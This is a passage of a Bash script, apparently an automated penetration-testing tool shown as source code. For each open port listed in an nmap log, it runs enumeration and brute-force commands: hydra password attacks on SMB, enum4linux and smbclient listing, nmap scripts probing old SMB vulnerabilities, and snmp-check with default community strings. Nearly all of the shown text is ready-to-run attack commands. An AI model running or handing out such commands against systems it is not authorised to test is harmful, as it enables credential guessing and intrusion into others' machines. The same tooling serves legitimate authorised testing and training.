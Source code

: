       Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 110(POP3) is not open. Skipping to next port..."
    fi
  }
  BrutePOP3

  #  Port 139 - (SMB)
  BruteSMB(){
    # - Name:
    # - Version:
    # - Domain/workgroup name:
    # - Domain-sid:
    # - Allows unauthenticated login:
    if grep -q 139/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 139(SMB) is open. Starting bruteforce...\n"
      sleep 1
      enum4linux -a ${targetIP}
      smbclient -L ${targetIP}
      nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse ${targetIP} -p 445
      hydra -L $windows_u -P $pass ${targetIP} smb -S 139 -e ns -o Output/${targetIP}/smb_139_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 139(SMB) is not open. Skipping to next port..."
    fi

  }
  BruteSMB

  #  Port 162 - (SNMP)
  BruteSNMP(){
    if grep -q 162/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 162(SNMP) is open. Starting bruteforce..."
      sleep 1
      nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes ${targetIP}
      snmp-check -t ${targetIP} -c public  # Common community strings:    [  public   /   private   /   community  ]
